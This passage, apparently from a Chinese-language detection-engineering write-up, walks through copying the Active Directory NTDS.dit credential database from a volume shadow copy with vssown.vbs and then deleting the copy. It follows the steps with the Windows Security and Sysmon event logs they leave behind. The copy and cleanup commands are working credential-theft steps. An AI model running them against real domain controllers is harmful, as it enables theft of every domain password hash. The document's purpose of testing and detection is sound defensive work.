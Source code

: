    ```cmd
   cscript C:\Tools\vssown.vbs /list
   ```
   - 输出：
     ```
     [*] Device object: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
     ```
4. **复制NTDS.dit**：
   ```cmd
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\Temp\ntds.dit
   ```
   - 输出：`已复制 1 个文件。`
5. **删除卷影副本**：
   ```cmd
   cscript C:\Tools\vssown.vbs /delete
   ```
   - 输出：`[*] Attempting to delete shadow copies.`
6. **验证日志**：
   - 检查事件ID8222（卷影副本创建）。
   - 检查Sysmon事件ID11（ntds.dit复制）。

## 测试留痕

### Windows安全日志
- **事件ID4688**：
  ```xml
  <Event>
    <EventData>
      <Data Name="ProcessName">C:\Windows\System32\cscript.exe</Data>
      <Data Name="CommandLine">cscript C:\Tools\vssown.vbs /create c</Data>
      <Data Name="SubjectUserName">Administrator</Data>
    </EventData>
  </Event>
  ```
- **事件ID8222**：
  ```xml
  <Event>
    <EventData>
      <Data Name="ProcessImageName">C:\Windows\System32\wbem\WmiPrvSE.exe</Data>
      <Data Name="ShadowDeviceName">\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1</Data>
    </EventData>
  </Event>
  ```

### Sysmon日志
- **事件ID1**：
  ```xml
  <Event>
    <EventData>
      <Data Name="Image">C:\Windows\System32\cscript.exe</Data>
      <Data Name="CommandLine">cscript C:\Tools\vssown.vbs /create c</Data>
      <Data Name="User">ABCC\Administrator</Data>
    </EventData>
  </Event>
  ```
- **事件ID11**：
  ```xml
  <Event>
    <EventData>
      <Data Name="TargetFilename">C:\Temp\ntds.dit</Data>
      <Data Name="Image">C:\Windows\System32\cmd.exe</Data>
      <Data Name="User">ABCC\Administrator</Data>
    </EventData>
  </Event>
  ```
